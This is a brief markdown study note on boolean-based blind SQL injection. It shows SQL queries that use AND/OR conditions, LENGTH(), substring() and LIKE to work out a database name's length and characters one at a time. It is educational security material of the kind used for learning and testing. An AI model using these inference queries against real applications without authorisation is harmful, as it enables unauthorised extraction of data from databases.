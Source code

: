 ```yaml
---
title: BOOLEAN based (Blind) Injection
tags: [security, sqli, web]
---
```


If the 1st part of the where clause is correct we can use the AND operator to get result

````sql
SELECT * 
FROM users 
WHERE id=1 AND database()="sbva";
````

If the 1st part of the where clause is wrong we can use the OR operator to get result

````sql
SELECT * 
FROM users 
WHERE id=2 OR database()="sbva";
````

#### Finding Database Name

1. <u>Find Length of Name</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR LENGTH(database())="1";
````

2. <u>Brute Force the Characters</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR substring(database(), 1, 1)="s";

SELECT * 
FROM users 
WHERE id=2 or substring(database(), 2, 1)="s";
````

3. <u>Try to Find Matching Pattern</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR database() LIKE "%s%";
````